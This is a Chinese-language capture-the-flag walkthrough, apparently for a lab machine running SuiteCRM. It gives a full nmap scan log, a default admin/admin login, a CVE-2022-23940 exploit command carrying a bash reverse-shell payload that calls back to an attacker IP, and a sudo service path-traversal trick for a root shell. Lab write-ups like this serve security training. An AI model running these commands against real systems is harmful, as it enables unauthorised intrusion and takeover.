



## 偵查

```shell
[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.146.146:22
Open 192.168.146.146:80
Open 192.168.146.146:3306
Open 192.168.146.146:33060
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} -{{ipversion}} {{ip}} -sC -sV -o scan_result.txt" on ip 192.168.146.146
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 08:01 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
Initiating Ping Scan at 08:01
Scanning 192.168.146.146 [4 ports]
Completed Ping Scan at 08:01, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:01
Completed Parallel DNS resolution of 1 host. at 08:01, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 08:01
Scanning 192.168.146.146 [4 ports]
Discovered open port 33060/tcp on 192.168.146.146
Discovered open port 22/tcp on 192.168.146.146
Discovered open port 80/tcp on 192.168.146.146
Discovered open port 3306/tcp on 192.168.146.146
Completed SYN Stealth Scan at 08:01, 0.09s elapsed (4 total ports)
Initiating Service scan at 08:01
Scanning 4 services on 192.168.146.146
Completed Service scan at 08:01, 6.35s elapsed (4 services on 1 host)
NSE: Script scanning 192.168.146.146.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 2.30s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.51s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
Nmap scan report for 192.168.146.146
Host is up, received reset ttl 61 (0.073s latency).
Scanned at 2025-09-04 08:01:23 EDT for 9s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBvgZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
3306/tcp  open  mysql   syn-ack ttl 61 MySQL (unauthorized)
33060/tcp open  mysqlx  syn-ack ttl 61 MySQL X protocol listener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:01
Completed NSE at 08:01, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.71 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (216B)

```

## 列舉

- 22 port ssh
- 80 port http
- 3306 port mysql
- 33060 port mysqlx

預設密碼 admin/admin 可以登入 SuiteCRM  


然後看到一個 [exploit](https://github.com/manuelz120/CVE-2022-23940/blob/main/exploit.py) 可以利用看看

```shell
python exploit.py -h http://192.168.146.146 -u admin -p admin \
  -P 'bash -c "bash -i >& /dev/tcp/192.168.45.225/4444 0>&1"'
```

成功 GET www-data



## 提權

嘗試看看 sudo -l ， 發現可以執行 /usr/sbin/service
```shell
User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
```
然後找找 GTFOBins 有沒有相關手法  
結果手法很簡單
  
直接 `sudo service ../../bin/sh` 就 GET root shell 了